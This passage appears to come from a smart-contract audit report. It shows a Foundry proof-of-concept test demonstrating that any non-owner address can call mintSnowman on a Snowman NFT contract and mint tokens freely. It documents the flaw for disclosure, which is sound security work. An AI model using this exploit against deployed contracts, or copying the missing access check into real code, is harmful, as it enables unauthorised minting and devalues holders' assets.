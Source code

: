 * **Loss of User Trust and Project Credibility:** This fundamental flaw damages the project's reputation.

## Proof of Concept

The following Foundry test, `testVulnerability_AttackerCanMintSnowman` from `test/Snowman.t.sol`, demonstrates that an arbitrary `attacker` address can successfully call `mintSnowman`.

```Solidity
// test/Snowman.t.sol
contract TestSnowman is Test {
    Snowman nft;
    // ... other setup variables ...
    address contractOwner;
    address attacker;

    function setUp() public {
        // ... (deployment of Snowman contract and nft initialization) ...
        // Example:
        DeploySnowman deployer = new DeploySnowman();
        nft = deployer.run();
        contractOwner = nft.owner(); // Assuming nft is initialized in setup
        attacker = makeAddr("attacker"); // Creates a distinct address
        assertTrue(attacker != contractOwner, "Attacker should not be the contract owner for this PoC.");
    }

    function testVulnerability_AttackerCanMintSnowman() public {
        uint256 mintAmountByAttacker = 5;
        address receiverForAttackersMint = makeAddr("receiver_for_attackers_mint");

        uint256 initialTotalSupply = nft.getTokenCounter();
        uint256 initialReceiverBalance = nft.balanceOf(receiverForAttackersMint);

        // THE ATTACK: Attacker (who is NOT the owner) calls mintSnowman
        vm.startPrank(attacker);
        nft.mintSnowman(receiverForAttackersMint, mintAmountByAttacker);
        vm.stopPrank();

        uint256 finalTotalSupply = nft.getTokenCounter();
        uint256 finalReceiverBalance = nft.balanceOf(receiverForAttackersMint);

        // Assertions to prove the vulnerability
        assertEq(finalTotalSupply, initialTotalSupply + mintAmountByAttacker, "VULNERABILITY: Total supply should increase by attacker's mintAmount.");
        assertEq(finalReceiverBalance, initialReceiverBalance + mintAmountByAttacker, "VULNERABILITY: Receiver's balance should increase by attacker's mintAmount.");

        uint256 firstTokenIdMintedByAttacker = initialTotalSupply;
        assertEq(nft.ownerOf(firstTokenIdMintedByAttacker), receiverForAttackersMint, "VULNERABILITY: receiverForAttackersMint should own the token minted by the attacker.");
    }
}
```
